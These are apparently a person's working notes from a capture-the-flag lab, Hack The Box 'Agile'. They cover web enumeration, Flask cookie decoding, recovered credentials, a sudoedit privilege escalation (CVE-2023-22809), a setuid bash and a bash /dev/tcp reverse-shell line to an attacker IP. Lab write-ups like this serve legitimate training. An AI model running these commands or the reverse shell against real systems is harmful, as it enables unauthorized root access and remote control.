 
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


port 80 is open

echo "10.10.11.203 superpass.htb" >> /etc/hosts

on account login we have sql alchemy

![](20230627071229.png)

when searching for vault and flask it seemse there is vault-consul flask repo taht is being used

```
sqlalchemy.exc.OperationalError: (pymysql.err.OperationalError) (2006, "MySQL server has gone away (BrokenPipeError(32, 'Broken pipe'))")
[SQL: SELECT users.id AS users_id, users.username AS users_username, users.hashed_password AS users_hashed_password 
FROM users 
WHERE users.username = %(username_1)s 
 LIMIT %(param_1)s]
[parameters: {'username_1': 'root', 'param_1': 1}]
(Background on this error at: https://sqlalche.me/e/14/e3q8)
```

we can check for sql injection here

continuing with enumerating the directories

we can use wapalyzer to look into the tech stack used for the website

Popper
jQuery 3.3.1
_hyperscript
Htmx
Bootstrap 4.1.3

![](20230628021152.png)

There is no injection in this vault.

trying in burpsuite

GET /vault HTTP/1.1
Host: superpass.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://superpass.htb/account/register
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: remember_token=10|2d81ae147a7fffcbc54dbf80f6f51e7f47d365f06d0b79d74d35d55e14856ab2221addb150a0dfa6dbba91a403b54e7c65ee627993f7ca5546a78c16f8e3c5ff; session=.eJwlzjkOwjAQAMC_uKbwHt6185nI3kPQJqRC_J1IlNPNp-x5xPks2_u44lH2l5etJGjr5lynjOBGpmP1RIKlK2dHBcGJUt1TvFrPARQDV2CbXRc1I5nKzVg7pZhbNpnLjAWqjxhjIXrGZGq30gFarWBIGcqLyx25zjj-G6jl-wMEsi_Y.ZJwPlw.tht5dBfc0fqoWx__ELOSGA9bCaw
Connection: close


POST /v1/leaks:lookupSingle HTTP/1.1
Host: passwordsleakcheck-pa.googleapis.com
Content-Length: 43
X-Goog-Api-Key: dummytoken
Content-Type: application/x-protobuf
Sec-Fetch-Site: none
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: empty
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


  !ßÜºd¨êÕBà#ð0ÀE:m ÀPÙ^'­wªÄ


### things to learn

cookie unsign in flask-unsign

or using the site
https://www.kirsle.net/wizards/flask-session.cgi

```
{
    "_fresh": true,
    "_id": "f1758cd40a69e453c79b8f231b7bfa827162a260ddf6d0c8f913e92be25a87b35c36a745c4783f6cdcf56abcc4610d9e99b22dfea4359e9fd115001c23fe74b4",
    "_user_id": "10"
}

```

GET /vault/edit_row/10 HTTP/1.1
Host: superpass.htb
HX-Request: true
HX-Current-URL: http://superpass.htb/vault
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: */*
Referer: http://superpass.htb/vault
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: remember_token=10|2d81ae147a7fffcbc54dbf80f6f51e7f47d365f06d0b79d74d35d55e14856ab2221addb150a0dfa6dbba91a403b54e7c65ee627993f7ca5546a78c16f8e3c5ff; session=.eJwlzjkOwjAQAMC_uKbwHt6185nI3kPQJqRC_J1IlNPNp-x5xPks2_u44lH2l5etJGjr5lynjOBGpmP1RIKlK2dHBcGJUt1TvFrPARQDV2CbXRc1I5nKzVg7pZhbNpnLjAWqjxhjIXrGZGq30gFarWBIGcqLyx25zjj-G6jl-wMEsi_Y.ZJwkuw.A-ubmOw9-8SGSA7Ci5BQ6zf2hpw
Connection: close


HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 28 Jun 2023 12:18:25 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Vary: Cookie
Content-Length: 690

<tr>
    <td>
        
        <a hx-post="/vault/update/10" 
            hx-include="closest tr"
            hx-trigger="click, keydown[key=='Enter'] from:closest tr">
            <i class="fas fa-save"></i>
        </a>
        <a hx-get="/vault/row/10" 
            hx-trigger="click, keydown[key=='Escape'] from:closest tr">
            <i class="fas fa-undo"></i>
        </a>
        
    </td>
    <td><input type="text" name="url" placeholder=" site" value="asdfsd" /></td>
    <td><input type="text" name="username" placeholder=" username" value="asdfsada" /></td>
    <td><input type="text" name="password" placeholder=" password" value="865b8919c771sdfasdf4dd5bf9f" /></td>
</tr>

we can try and bruteforce to edit the row endpoints

![](20230628082901.png)

But none of that seems to be working.

Ideally I should have gotten 
corum and 
5db7caa1d13cc37c9fc2


![](20230630022009.png)

found out that there is an experimental server here

after netstat pantu

and using chisel brought it ot localhost

at /vaulr/row/1

i should have found edwards password but i didnt


agile edwards d07867c6267dcb5df0af

[sudo] password for edwards: 
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt


edwards@agile:~$ export EDITOR='vim -- /app/venv/bin/activate'
edwards@agile:~$ sudo -u dev_admin sudoedit /app/config_test.json

chmod u+s /bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.10.16.24/9001 <&1 &'

edwards@agile:~$ bash -p
root@agile:~# whoami
root
root@agile:~# cat /root/root.txt
d096bf0665aa1d99f6d85b854496baa6


https://www.vicarius.io/blog/cve-2023-22809-sudoedit-bypass-analysis

adding a reverse shell gave me the connection
![](20230701204658.png)

### Things I learned

1. cookies cn give you valuable information
2. look for csrf
3. validate